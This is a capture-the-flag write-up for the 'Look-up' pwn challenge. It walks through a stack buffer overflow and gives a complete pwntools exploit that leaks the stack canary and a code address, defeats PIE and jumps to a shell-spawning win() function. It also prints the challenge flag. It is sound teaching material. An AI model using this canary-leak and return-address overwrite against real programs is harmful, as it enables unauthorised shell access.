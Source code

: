 # Look-up
Unravel the hidden messages buried in the echoes of code.

# Write Up

Before diving into any pwn challenge, it's crucial to examine the security mitigations applied during the compilation of the executable. The checksec tool from the pwntools suite is perfect for this:

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

With all major mitigations enabled, this challenge may seem daunting at first.

When you run the program, it presents the following message and waits for your input:

```
---Welcome to the UCTF---
--- I'll repeat what you say :D ---
```

Without access to the source code, we turn to a disassembler like IDA Pro to understand the program’s behavior. In the vuln() function, we discover a stack buffer overflow vulnerability:

```c
unsigned __int64 vuln()
{
  char s[10]; // [rsp+Eh] [rbp-12h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("--- I'll repeat what you say :D ---");
  memset(s, 0, sizeof(s));
  read(0, s, 0x64uLL);  // Buffer overflow vulnerability
  printf("You said: %s\n", s);
  if (strstr(s, "UCTF"))
  {
    puts("The Backdoor triggered!");
    vuln();  // Recursively calls itself
  }
  return v2 - __readfsqword(0x28u);
}
```

The program also contains a win() function that runs system("/bin/bash -p"), giving a shell when triggered:

```c
void win()
{
  system("/bin/bash -p");
}
```

To gain a shell, we need to bypass the stack canary and PIE protections. The vuln() function’s behavior provides a critical insight: it echoes back whatever you input. This allows us to leak the stack canary by overflowing the buffer and inspecting the output.

Once the canary is leaked, we can craft a payload that bypasses the canary check. Next, we need to leak another value from the stack that is related to a function. With both the canary and function values in hand, we can overwrite the return address and call the win() function to spawn a shell.

Here is the finall exploit:

```python
from pwn import *

elf = context.binary = ELF("./look-up")
context.log_level = 'debug'
libc = elf.libc

gs = '''
start
'''
def start():
    global gs
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("0.0.0.0", 5000)
    else:
        return process(elf.path)

io = start()

payload = b'UCTF' + b'A' * 7


io.send(payload)
io.recvuntil(b"You said:")
canary = io.recvline()
canary = list(canary)
canary[11] = 0
canary = canary[11:19]
canary = bytearray(canary)
canary = u64(canary)

print(f"Canary = {hex(canary)}")


payload = b'UCTF' + b'B' * 22
io.send(payload)
io.recvuntil(b"You said:")
addr = io.recvline()
addr = list(addr)
addr = addr[27:27+6]
addr = bytearray(addr).ljust(8, b'\x00')

leaked_addr = u64(addr)

print(f'Vuln Leaked addr: {hex(leaked_addr)}')

base = leaked_addr - 169 - 0x000000000000126f

win_addr = base + 0x0000000000001258

payload = b'A' * 10
payload+= p64(canary)
payload+= b'B' * 8
payload+= p64(win_addr)

io.send(payload)

io.interactive()

```

# Flag

`UCTF{Pl4ying_S3t@r_str1ngs_is_Fun_4Evr!}`

# Categories

- [ ] Web
- [ ] Reverse
- [X] PWN
- [ ] Misc
- [ ] Forensics
- [ ] Cryptography
- [ ] Blockchain
- [ ] Steganography
- [ ] AI

# Points

| Warm up | This Challenge  | Evil |
| ------- |:---------------:| ----:|
| 25      |       300       | 500  |

